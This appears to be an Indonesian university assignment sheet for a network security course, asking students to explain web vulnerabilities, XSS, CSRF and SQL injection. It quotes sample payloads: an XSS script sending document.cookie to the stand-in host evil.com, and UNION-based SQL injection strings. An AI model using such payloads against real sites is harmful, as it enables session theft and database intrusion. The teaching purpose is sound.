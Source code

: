 
Mata kuliah : Keamanan Jaringan Komputer<br>
Kelas : Teknik Informatika<br>
Fakultas Ilmu Komputer, Universitas Sriwijaya.<br>

#### SOAL:
##### Web Apps Vuln
1. Apakah yang dimaksud dengan celah pada aplikasi web (Web Apps Vulnerable)?
2. Jelaskan beberapa exploitasi yang dapat terjadi pada Web Apps!
3. Jelaskan maksud dari pesan HTTP pada paket data di bawah berikut!

```
GET /test/index.php HTTP/1.1
Host: 35.240.164.125
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://35.240.164.125/test/login.php
Connection: keep-alive
Cookie: security=low; PHPSESSID=p00u0h65mngqicaitmrnaimgk0
Upgrade-Insecure-Requests: 1
```

##### XSS
1. Jelaskan apa yang dimaksud dengan XSS attack, sebutkan ciri - ciri serangannya! Note *tambahan : berikan secara visual proses serangan tersebut
2. Pada serangan XSS atau Cross Site Scripting, terdapat script yang dapat dilakukan serangan, berikan penjelasan pada script xss attack injection berikut:

```
<script>alert(document.cookie)</script>
```

```
<script>document.write('<img src="http://evil.com/?'+document.cookie+'">');</script>
```

##### CSRF & SQL Injection
1. Jelaskan proses kerja dari serangan Cross-Site Request Forgery (CSRF). Note: *tambahan, berikan secara visual proses serangan tersebut
2. Jelaskan proses serangan pada SQL injection! Note: *tambahan, berikan secara visual proses serangan tersebut
3. Pada serangan SQL injection, beberapa payload yang di lakukan oleh attacker *di bawah. berikan penjelasan mengenai payload SQL Injection tersebut beserta dengan SQL query statement:

```
http://website-target.com/?id=%27+union+all+select+system_user%28%29%2Cuser%28%29+%23&Submit=Submit#
```

```
' union all select system_user(),user() #
```


#### NOTE: 
Kerjakan tugas berikut dengan seksama dan tulis dalam bentuk dokumen digital (.pdf). Soal tersedia dalam bentuk lampiran

Aturan:
- lihat batas tanggal pengumpulan tugas
- silahkan didownload dan kerjakan, kemudian upload berkas anda ke google classroom ini.
- untuk upload file tugas dengan format : nim[dot]pdf, <b>tidak dianjurkan dalam format doc, docx, karena dalam beberapa kasus, format nya berantakan ketika di baca menggunakan google doc</b>
- cantumkan referensi, website, buku.

<b>WARNING: tidak boleh plagiat, duplikasi dengan mahasiswa lainnya, misalkan jawaban sama, cuma berbeda Nama dan NIM, 
maka jika terjadi hal tersebut akan mendapatkan nilai 0 atau di kurangi</b>

